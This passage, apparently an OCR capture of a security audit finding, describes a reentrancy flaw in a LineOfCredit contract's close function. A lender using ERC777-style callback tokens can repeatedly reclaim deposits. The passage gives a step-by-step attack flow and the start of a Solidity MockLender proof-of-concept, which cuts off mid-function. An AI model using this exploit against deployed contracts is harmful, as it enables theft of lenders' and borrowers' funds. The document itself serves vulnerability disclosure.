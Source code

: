             return true;
        }

### Proof of Concept

Reentrancy is possible if the borrower is lending tokens that can change the control flow. Such tokens are based on ERC20 such as ERC777, ERC223 or other customized ERC20 tokens that alert the receiver of transactions.
Example of a real-world popular token that can change control flow is PNT (pNetwork).

As the protocol supports any token listed on the oracle, if the oracle currently supports (or will support in the future) a feed of the above tokens, the bug is exploitable.

If a reentrancy occurs in the `_close(credit, id)` function, the `credit[id]` state variable is cleared only after sendings tokens to the lender.
A lender can abuse this by reentrancy to `close(id)` and retrieve `credit.deposit + credit.interestRepaid` amount of `credit.token`. A lender can repeat these processes as long as LineOfCredit has funds available.

The POC will demonstrate the following flow:

1.  Borrower  adds a new credit with lender1 on 1000 tokens.
2.  Borrower lends 1000 from lender1
3.  Borrower repays debt
4.  Borrower adds a new credit with lender2 on 1000 tokens
5.  Borrower closes debt with lender1
6.  Lender1 receives 2000 tokens.

Add the `MockLender.sol` to mock folder.

    pragma solidity 0.8.9;

    import { ILineOfCredit } from "../interfaces/ILineOfCredit.sol";
    import { Token777 } from "./Token777.sol";

    contract MockLender {
        address owner;
        ILineOfCredit line;
        bytes32 id;
        bool lock;
        
        event GotMoney(uint256 amount);

        constructor(address _line) public {
            line = ILineOfCredit(_line);
            owner = msg.sender;
        }

        function addCredit(
            uint128 drate,
            uint128 frate,
            uint256 amount,
            address token
        ) external {
            require(msg.sender == owner, "Only callable by owner");
            Token777(token).approve(address(line), amount);
            Token777(token).approve(address(owner), type(uint256).max);
            Token777(token).mockAddToRegistry();
            id = line.addCredit(drate, frate, amount, token, address(this));
        }
        function tokensReceived(
            address operator,
            address from,
            address to,
            uint256 amount,
            bytes calldata userData,
            bytes calldata operatorData
        ) external {
            emit GotMoney(amount);